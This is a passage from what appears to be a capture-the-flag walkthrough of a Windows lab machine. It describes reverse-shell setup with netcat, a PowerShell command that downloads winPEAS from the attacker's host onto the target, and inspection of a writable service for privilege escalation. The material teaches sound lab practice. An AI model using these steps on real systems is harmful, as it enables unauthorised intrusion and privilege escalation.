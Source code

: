 Start a `netcat` listener on the port number specified on the exploit. Then, proceed to copy the `nc.exe` file located in `/usr/share/windows-resources/binaries/` to your preferred location and start a `python` server listening on port 80 from that same directory. When all set, execute the exploit script twice and the connection will be established with our `netcat` listener.

![image](https://user-images.githubusercontent.com/14150485/174684756-c6560791-0f1c-4630-97e5-9cf10b8faeda.png)

<br />

Grab a copy of [WinPEAS.exe](https://github.com/carlospolop/PEASS-ng/releases) that we can use to upload to the target machine, then proceed to place it on the desktop folder of the current user.

```
C:\Users\bill\Desktop>powershell -c wget "http://LOCAL_IP:80/winPEAS.exe" -outfile "winpeas.exe"
powershell -c wget "http://LOCAL_IP:80/winPEAS.exe" -outfile "winpeas.exe"

C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

06/20/2022  04:43 PM    <DIR>          .
06/20/2022  04:43 PM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
06/20/2022  04:43 PM         1,936,896 winpeas.exe
               2 File(s)      1,936,966 bytes
               2 Dir(s)  44,209,725,440 bytes free
```

<br />

Since we are on the desktop folder we can quickly get the flag for the first challenge before we proceed with the next steps.

```
C:\Users\bill\Desktop>more user.txt
more user.txt
***************fcd7c**********d**5
```

<br />

The results from `WinPEAS` reveal a list of vulnerable services that we could potentially exploit, the first of which seems to allow our user to create files and write data in the service directory.

![image](https://user-images.githubusercontent.com/14150485/174689954-67058ed2-d09c-48f9-bd2b-5abf480500a8.png)

<br />

We can further investigate this service from its parent directory to see if we can manually interact with it, as well as write over it - Should that be the case, we can replace it to escalate our privileges.

```
C:\Program Files (x86)\IObit>sc qc AdvancedSystemCareService9
sc qc AdvancedSystemCareService9
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
```